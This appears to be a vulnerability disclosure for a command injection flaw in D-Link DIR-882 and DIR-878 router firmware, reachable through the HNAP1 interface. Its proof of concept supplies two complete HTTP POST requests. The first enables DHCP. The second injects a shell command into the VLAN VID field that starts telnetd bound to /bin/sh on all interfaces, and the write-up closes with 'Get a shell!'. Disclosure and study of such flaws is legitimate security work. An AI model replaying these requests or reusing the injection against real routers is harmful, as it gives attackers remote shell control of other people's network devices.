 # D-Link Vulnerability

Vendor:D-Link

Product:DIR_882、DIR_878

Version:DIR_882_FW130B06、DIR_878_FW130B08

Type:Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn



## Vulnerability description

We found an Command Injection vulnerability  in D-Link Technology router with firmware which was released recently. A command Injection vulnerability allows attackers to execute arbitrary OS commands via a crafted /HNAP1 POST request.

**Remote Command Execution**

In `prog.cgi` binary:

In `SetVLANSettings` function,`VLANID:2/VID` is directly passed by the attacker. After that, call the function nvram_safe_set to store this input.

<div  align="center"><img src="./images/1.png" style="zoom:80%;" /></div>

In `rc` binary:

In `start_wan` function, the initial input will be extracted. Eventually, the initial input will cause command injection.

The necessary condition for successfully triggering the vulnerability is to enable the dhcp service, so we need to send two packets to complete the triggering of the vulnerability.

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>

<div  align="center"><img src="./images/3.png" style="zoom:70%;" /></div>

**Supplement**

The trigger point of this vulnerability is deep in the program path, so we recommend that the string content should be strictly checked when extracting user input.

Vulnerability trigger steps:

* Enable dhcp service, in (`SetWan3Settings`)
* set `VLANID:2/VID`=3 ;telnetd -l /bin/sh -p 1116 -b 0.0.0.0;, in (`SetVLANSettings`)



## PoC

Enable dhcp service, in (`SetWan3Settings`)

```http
POST /HNAP1/ HTTP/1.1
Host: 192.168.100.1
Content-Length: 808
SOAPAction: "http://purenetworks.com/HNAP1/SetWan3Settings"
X-Requested-With: XMLHttpRequest
HNAP_AUTH: 2CC324EFDA0471385424A7CD822DBA82 1727319044201
Accept: */*
Content-Type: text/xml; charset=UTF-8
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36 Edg/129.0.0.0
Origin: http://192.168.100.1
Referer: http://192.168.100.1/UsbSharing.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: uid=kk4LEXZl
Connection: close

<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
	<soap:Body>
		<SetWan3Settings xmlns="http://purenetworks.com/HNAP1/">
			<Type>DHCP</Type>
			<Username/>
			<Password/>
			<MaxIdleTime/>
			<HostName></HostName>
			<VPNIPAddress/>
			<VPNSubnetMask/>
			<VPNGateway/>
			<ServiceName/>
			<AutoReconnect/>
			<IPAddress/>
			<SubnetMask/>
			<Gateway/>
			<ConfigDNS>
				<Primary></Primary>
				<Secondary></Secondary>
			</ConfigDNS>
			<MacAddress></MacAddress>
			<MTU>1500</MTU>
			<DsLite_Configuration/>
			<DsLite_AFTR_IPv6Address/>
			<DsLite_B4IPv4Address/>
		</SetWan3Settings>
	</soap:Body>
</soap:Envelope>
```

<div  align="center"><img src="./images/4.png" style="zoom:80%;" /></div>

Set `VLANID:2/VID`=3 ;telnetd -l /bin/sh -p 1116 -b 0.0.0.0;, in (`SetVLANSettings`)

```http
POST /HNAP1/ HTTP/1.1
Host: 192.168.100.1
Content-Length: 1438
SOAPAction: "http://purenetworks.com/HNAP1/SetVLANSettings"
X-Requested-With: XMLHttpRequest
HNAP_AUTH: 07944794AD8FFDA02C9805F9BBC00C8F 1727319113115
Accept: */*
Content-Type: text/xml; charset=UTF-8
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36 Edg/129.0.0.0
Origin: http://192.168.100.1
Referer: http://192.168.100.1/Internet_VLAN.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Cookie: uid=kk4LEXZl
Connection: close

<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><SetVLANSettings xmlns="http://purenetworks.com/HNAP1/"><Enabled>true</Enabled><PriorityEnabled>false</PriorityEnabled><ISPName>Others</ISPName><VLANIDInfoLists><VLANID><Service>Internet</Service><Tagged>false</Tagged><VID>0</VID><Priority>0</Priority><VendorClass></VendorClass></VLANID><VLANID><Service>IPTV</Service><Tagged>false</Tagged><VID>0</VID><Priority>0</Priority><VendorClass></VendorClass></VLANID><VLANID><Service>VOIP</Service><Tagged>false</Tagged><VID>3 ;telnetd -l /bin/sh -p 1116 -b 0.0.0.0;</VID><Priority>0</Priority><VendorClass></VendorClass></VLANID></VLANIDInfoLists><VLANRuleInfoLists><VLANRule><Interface>LAN1</Interface><ServiceMapping>Internet</ServiceMapping></VLANRule><VLANRule><Interface>LAN2</Interface><ServiceMapping>Internet</ServiceMapping></VLANRule><VLANRule><Interface>LAN3</Interface><ServiceMapping>Internet</ServiceMapping></VLANRule><VLANRule><Interface>LAN4</Interface><ServiceMapping>Internet</ServiceMapping></VLANRule><VLANRule><Interface>WLAN</Interface><ServiceMapping>Internet</ServiceMapping></VLANRule><VLANRule><Interface>WLANGuestZone</Interface><ServiceMapping>Internet</ServiceMapping></VLANRule></VLANRuleInfoLists></SetVLANSettings></soap:Body></soap:Envelope>
```

<div  align="center"><img src="./images/5.png" style="zoom:80%;" /></div>



## Result

Get a shell!

<div  align="center"><img src="./images/6.png" style="zoom:100%;" /></div>
